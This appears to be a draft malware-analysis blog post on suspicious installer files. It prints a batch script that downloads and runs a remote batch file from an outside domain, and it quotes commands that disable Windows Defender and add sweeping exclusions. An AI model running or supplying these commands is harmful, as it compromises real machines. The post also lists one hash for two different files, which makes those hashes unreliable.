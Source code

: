 Based on hash analysis, timestamps, and filenames the following files attract of our interest: 
{% highlight ruby %}lic_service.exe, Register.exe and Setup.bat.{% endhighlight %} 

These files were also recent in VT at the time of the analysis, and the former two share the same hash.

{% highlight ruby %}
lic_service.exe, Register.exe 
SHA256:  678f9d715220512a823ca45d7e8545a1288728d8d47243e072e17049441cdd2b 
{% endhighlight %} 
[VirusTotal 1/65](https://www.virustotal.com/gui/file/678f9d715220512a823ca45d7e8545a1288728d8d47243e072e17049441cdd2b)

{% highlight ruby %}
Setup.bat 
SHA256:  678f9d715220512a823ca45d7e8545a1288728d8d47243e072e17049441cdd2b 
{% endhighlight %} 
[VirusTotal 17/57](https://www.virustotal.com/gui/file/678f9d715220512a823ca45d7e8545a1288728d8d47243e072e17049441cdd2b )
??????????????? CHECK VT LINK

Setup.bat content:
{% highlight ruby %}
cd /d %~dp0
cd "%USERPROFILE%\AppData\Roaming
powershell Invoke-WebRequest https://websekir.com/g00glbat/index/processingSetRequestBat/?servername=msi -OutFile updatescript.bat
cmd /c updatescript.bat
{% endhighlight %} 

The .bat file sends a webrequest and acquires a further file, which was not available at the time of the analysis, and this is when I started to research and found the SentinelOne article.

The update.bat appears to have the following content per the SentinelOne research:

{% highlight ruby %}
powershell.exe -command “Add-MpPreference -ExclusionExtension “.exe””cmd /c powershell.exe -command “Set-MpPreference -MAPSReporting 0”powershell.exe -command “Set-MpPreference -PUAProtection disable”powershell.exe -command “Set-MpPreference -EnableControlledFolderAccess Disabled”powershell.exe -command “Set-MpPreference -DisableRealtimeMonitoring $true”powershell.exe -command “Set-MpPreference -DisableBehaviorMonitoring $true”powershell.exe -command “Set-MpPreference -DisableIOAVProtection $true”powershell.exe -command “Set-MpPreference -DisablePrivacyMode $true”powershell.exe -command “Set-MpPreference -SignatureDisableUpdateOnStartupWithoutEngine $true”powershell.exe -command “Set-MpPreference -DisableArchiveScanning $true”powershell.exe -command “Set-MpPreference -DisableIntrusionPreventionSystem $true”powershell.exe -command “Set-MpPreference -DisableScriptScanning $true”powershell.exe -command “Set-MpPreference -SubmitSamplesConsent 2”powershell.exe -command “Add-MpPreference -ExclusionProcess “regsvr32””powershell.exe -command “Add-MpPreference -ExclusionProcess “regsvr32*””powershell.exe -command “Add-MpPreference -ExclusionProcess “.exe””powershell.exe -command “Add-MpPreference -ExclusionProcess “iexplorer.exe””powershell.exe -command “Add-MpPreference -ExclusionProcess “explorer.exe””powershell.exe -command “Add-MpPreference -ExclusionProcess “.dll””powershell.exe -command “Add-MpPreference -ExclusionProcess “*.dll””powershell.exe -command “Add-MpPreference -ExclusionProcess “*.exe””powershell.exe -command “Set-MpPreference -HighThreatDefaultAction 6 -Force”powershell.exe -command “Set-MpPreference -ModerateThreatDefaultAction 6”powershell.exe -command “Set-MpPreference -LowThreatDefaultAction 6”powershell.exe -command “Set-MpPreference -SevereThreatDefaultAction 6”powershell.exe -command “Set-MpPreference -ScanScheduleDay 8”
{% endhighlight %} 
